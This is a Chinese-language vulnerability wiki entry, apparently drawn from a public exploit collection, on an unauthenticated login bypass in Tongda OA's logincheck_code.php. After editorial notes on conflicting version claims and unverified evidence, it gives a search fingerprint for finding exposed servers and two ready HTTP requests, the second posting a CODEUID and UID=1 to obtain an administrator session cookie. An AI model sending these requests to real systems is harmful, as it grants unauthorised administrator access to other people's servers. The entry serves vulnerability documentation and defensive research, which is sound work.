




# 通达OA logincheck_code UID绕过

## 条目说明

- 对象与具体问题：通达OA；logincheck_code UID绕过
- 版本、配置及部署条件：标题11.5，正文/frontmatter11.8，旧资料<11.5修复互相冲突
- 认证与权限前提：未授权
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 严重版本冲突且无补丁绕过分析，不能认定11.8新漏洞
- 请求与旧扫码链相同，必须把第1步动态CODEUID传给第2步，固定样例不通用
- 只有截图响应，无新根因及build

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

通达OA v11.8 logincheck_code.php存在登陆绕过漏洞，通过漏洞攻击者可以登陆系统管理员后台

### 漏洞影响

```
通达OA v11.8
```

### 网络测绘

```
app="TDXK-通达OA"
```

### 漏洞复现

登陆页面



发送第一个请求包

```http
GET /general/login_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```



再发送第二个恶意请求

```http
POST /logincheck_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

CODEUID=%7BD384F12E-A758-F44F-8A37-20E2568306A7%7D&UID=1
```

> 请求长度说明：原资料 Content-Length 为 56；静态长度已移除，应由客户端根据最终请求体的字节数生成。



获取cookie后访问管理员页面 `/general/index.php`



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
